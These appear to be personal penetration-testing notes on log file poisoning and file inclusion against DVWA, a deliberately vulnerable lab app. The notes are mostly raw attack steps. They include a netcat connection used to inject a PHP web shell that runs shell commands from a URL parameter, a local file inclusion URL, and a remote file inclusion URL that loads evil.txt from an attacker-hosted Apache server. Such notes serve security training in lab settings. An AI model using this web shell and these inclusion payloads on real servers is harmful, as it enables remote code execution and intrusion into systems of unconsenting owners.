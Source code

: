 # log file poisoning
## starting nc
nc -nv 10.11.0.22 80

## inserting script: 
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>'; ?>

## local file inclusion
//refering to one file on the server
http://192.168.0.13/dvwa/vulnerabilities/fi/?page=/usr/share/perl/5.8.8/unicore/Jamo.txt

## remote file 
http://192.168.0.13/dvwa/vulnerabilities/fi/?page=http://192.168.0.9/evil.txt

//we can create such file and put in in our apache webserver
cat /var/www/html/evil.txt

//start apache
sudo systemctl start apache2
